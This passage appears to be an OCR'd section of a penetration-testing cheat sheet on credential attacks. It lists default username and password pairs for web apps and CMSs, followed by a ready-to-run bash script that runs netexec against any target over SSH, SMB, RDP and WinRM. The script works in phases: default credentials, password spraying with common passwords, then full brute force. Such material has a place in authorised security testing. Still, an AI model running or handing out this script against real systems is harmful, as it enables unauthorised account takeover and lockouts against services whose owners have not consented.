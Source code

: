 ### Web Application Defaults
```bash
# Common web app defaults
admin:admin
admin:password
administrator:password
admin:changeme
root:root
demo:demo
test:test
guest:guest

# CMS defaults
wordpress: admin:admin
joomla: admin:admin
drupal: admin:admin
```

## Automation Script
```bash
#!/bin/bash
# Multi-service brute force script with advanced techniques

TARGET=$1
USERS="users.txt"
PASSWORDS="passwords.txt"
DEFAULT_CREDS="default_creds.txt"

echo "[+] Starting multi-service brute force against $TARGET"

# Phase 1: Default credentials
echo "[*] Testing default credentials..."
netexec ssh $TARGET -C $DEFAULT_CREDS
netexec smb $TARGET -C $DEFAULT_CREDS
netexec rdp $TARGET -C $DEFAULT_CREDS
netexec winrm $TARGET -C $DEFAULT_CREDS

# Phase 2: Password spraying
echo "[*] Password spraying common passwords..."
for password in "Password123!" "Welcome1!" "ChangeMe123!"; do
    netexec smb $TARGET -u $USERS -p "$password"
done

# Phase 3: Traditional brute force
echo "[*] Traditional brute force..."
netexec ssh $TARGET -u $USERS -p $PASSWORDS -t 4
netexec smb $TARGET -u $USERS -p $PASSWORDS
netexec rdp $TARGET -u $USERS -p $PASSWORDS
netexec winrm $TARGET -u $USERS -p $PASSWORDS

echo "[+] Brute force complete!"
```
